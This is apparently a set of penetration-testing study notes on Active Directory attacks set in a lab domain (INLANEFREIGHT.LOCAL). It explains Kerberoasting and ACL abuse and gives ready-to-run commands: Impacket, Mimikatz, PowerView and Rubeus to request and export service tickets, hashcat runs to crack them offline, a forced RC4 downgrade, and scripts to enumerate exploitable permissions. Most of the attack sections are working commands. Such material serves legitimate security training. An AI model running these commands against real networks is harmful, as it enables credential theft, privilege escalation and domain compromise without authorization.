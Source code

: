 ## Keberoasting

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as NT AUTHORITY\LOCAL SERVICE. Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary. All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.

Domain accounts running services are often local administrators, if not highly privileged domain accounts. Due to the distributed nature of systems, interacting services, and associated data transfers, service accounts may be granted administrator privileges on multiple servers across the enterprise. Many services require elevated privileges on various systems, so service accounts are often added to privileged groups, such as Domain Admins, either directly or via nested membership. Finding SPNs associated with highly privileged accounts in a Windows environment is very common. Retrieving a Kerberos ticket for an account with an SPN does not by itself allow you to execute commands in the context of this account. However, the ticket (TGS-REP) is encrypted with the service account’s NTLM hash, so the cleartext password can potentially be obtained by subjecting it to an offline brute-force attack with a tool such as Hashcat.

## Kerberoasting - Linux

Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using runas /netonly.

### Impacket Kerberoasting

```bash
## Install Impacket using Pip
sudo python3 -m pip install .

## List SPN accounts with GetUserSPNs.py
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

## Request all TGS tickets
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

## Request for specific account TGS ticket
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

## Save TGS ticket for offline cracking
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs

## Cracking ticket offline with Hashcat
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

## Kerberoasting - Windows

Before tools such as Rubeus existed, stealing or forging Kerberos tickets was a complex, manual process. As the tactic and defenses have evolved, we can now perform Kerberoasting from Windows in multiple ways. To start down this path, we will explore the manual route and then move into more automated tooling.

### Semi-Manual Method

```powershell
## Enumerate SPN
setspn.exe -Q */*

## Targeting single user
## Request and load TGS ticket into memory for future Mimikatz
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

## Retrieving all tickets 
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

## Extract using Mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```

```bash
## Prepare file for correct format for cracking
echo "<base64 blob>" |  tr -d \\n
cat encoded_file | base64 -d > sqldev.kirbi
python2.7 kirbi2john.py sqldev.kirbi

## Confirm hash can be fed
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

## Crack using hashcat
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated Method

```powershell
## Use PowerView
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname

## Target specific user
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

## Export all TGS tickets to csv
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

```powershell
## Use Rubeus
## Get some statistics
.\Rubeus.exe kerberoast /stats

## Accounts with admincount attribute set to 1
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

## Check supported encryption types
## Hashes that begin with $krb5tgs$23$*, an RC4 (type 23) encrypted ticket
## AES-256 (type 18) encrypted hash or hash that begins with $krb5tgs$18$* -- longer to crack
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

## Force downgrade of hash to RC4
.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

## Access Control Entities

### Why are ACEs Important

ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise.

There are 2 types of ACLs:

1. Discretionary Access Control List (DACL)
2. System Access Control List (SACL)

4 specific ACEs to highlight the power of ACL attacks:

| Attack | Description |
|--------|-------------|
| ForceChangePassword | Gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords). |
| GenericWrite | Gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module. |
| AddSelf | Shows security groups that a user can add themselves to. |
| GenericAll | Grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access. |


Breakdown of the varying possible ACE attacks and the tools to perform these attacks from both Windows and Linux (if applicable). 
![Alt text](Assets/ACL_attacks_graphic.png)


### ACL Enumeration

```powershell
## PowerView
Import-Module .\PowerView.ps1

## Target specific user
$sid = Convert-NameToSid wley 
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 

## Reverse Search & Mapping to GUID 
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

```powershell
## PowerView
## Create list of domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

## For-loop to get ACL information
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

*Bloodhound can perform the same features but in a simpler manner through its GUI.*

